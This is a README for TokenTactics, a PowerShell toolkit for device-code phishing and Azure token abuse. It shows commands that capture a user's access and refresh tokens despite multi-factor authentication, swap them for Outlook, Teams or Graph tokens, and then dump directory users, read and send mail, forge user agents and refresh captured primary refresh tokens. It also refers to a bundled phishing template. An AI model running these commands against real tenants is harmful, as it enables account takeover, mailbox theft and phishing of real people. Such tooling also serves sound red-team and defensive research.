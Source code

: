 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-Azure-Token```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-ClearToken                                        0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                       0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                                    0.0.2      TokenTactics
Function        Get-AzureToken                                           0.0.2      TokenTactics
Function        Get-TenantID                                             0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                           0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                                     0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken                 0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                               0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                                 0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                            0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToO365SuiteUXToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                              0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

